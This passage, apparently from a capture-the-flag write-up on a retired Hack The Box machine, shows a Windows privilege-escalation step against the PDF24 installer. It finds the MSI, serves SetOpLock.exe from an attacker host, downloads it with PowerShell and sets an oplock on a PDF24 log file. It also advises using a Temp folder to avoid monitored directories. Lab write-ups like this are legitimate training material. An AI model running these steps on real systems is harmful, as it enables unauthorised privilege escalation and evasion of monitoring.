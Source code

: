 Then we need to find the MSI installer.

```cmd
dir C:\ /s /b | findstr -i "pdf24.*\.msi"
```

![Lock Website](/assets/img/lock-htb-retired-machine/lock-htb-retired-machine_website-23.png)

```cmd
C:\_install\pdf24-creator-11.15.1-x64.msi
```

Then we will host on our kali for machine to grab `SetOpLock.exe` file.

```bash
└─$ python3 -m http.server 80                                                                              
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```cmd
powershell -Command "Invoke-WebRequest -Uri 'http://10.10.16.36/SetOpLock.exe' -OutFile 'SetOpLock.exe'"
```

![Lock Website](/assets/img/lock-htb-retired-machine/lock-htb-retired-machine_website-24.png)

```bash
└─$ python3 -m http.server 80                                                                              
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.196.71 - - [21/Aug/2025 22:48:02] "GET /SetOpLock.exe HTTP/1.1" 200 -
```

Confirm that the file is downloaded.

> *Create a `/Temp` folder and grab the file is better than download in home directory cause these directory often got watched or have rules that prevent suspicious activities.*

Now setup `OpLock`.

```cmd
SetOpLock.exe "C:\Program Files\PDF24\faxPrnInst.log" r
```

It will: <br>
- Create "read lock" on log file
- When other process try to write into it → blocked
